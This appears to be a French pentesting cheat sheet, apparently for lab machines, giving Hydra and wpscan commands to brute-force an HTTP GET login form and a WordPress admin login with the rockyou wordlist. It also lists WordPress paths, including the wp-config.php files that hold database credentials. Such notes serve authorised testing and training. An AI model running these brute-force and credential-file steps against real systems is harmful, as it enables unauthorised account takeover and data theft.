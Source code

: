 Attention si la réponse est un 302 Redirect, hydra ne va pas suivre et va générer un faux positif.







## 80: HTTP - Form HTTP GET - Brute force

<h5>Hydra</h5>
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.4 http-get-form '/login.php:username=^USER^&password=^PASS^:F=Login failed:H=Cookie\: PHPSESSIONID=ms0t93n23mc2bn2512ncv1ods4' -V
```

Attention si la réponse est un 302 Redirect, hydra ne va pas suivre et va générer un faux positif.







## CMS: Wordpress

<h5>Wordpress</h5>

Format des urls
```
Posts : /index.php?p=22
        /index.php/2017/04/12/hello-world/
        /index.php/jobs/apply/8/
Login : /wp-login/
        /wp-login.php
Uploaded files : /wp-content/uploads/%year%/%month%/%filename%
```


Fichier de config, et credentials de la base de donnée
```
/var/www/html/   
wordpress/wp-config.php
wordpress/htdocs/wp-config.php
```


<h5>Wpscan</h5>
Wpscan connait la structure d'un site wordpress et va faire du brute force pour identifier les pages, le posts, les users, le thème, les plugins.<br/>
Les failles de wordpress viennent essentiellement des plugins non mis à jour. 
```
wpscan --url http://10.10.10.10/wordpress/ -e
--url : url de la page wordpress.
-e : énumeration
```

Brute force du login
```
wpscan --url http://10.10.10.10/wordpress/  -P rockyou.txt -U admin
```
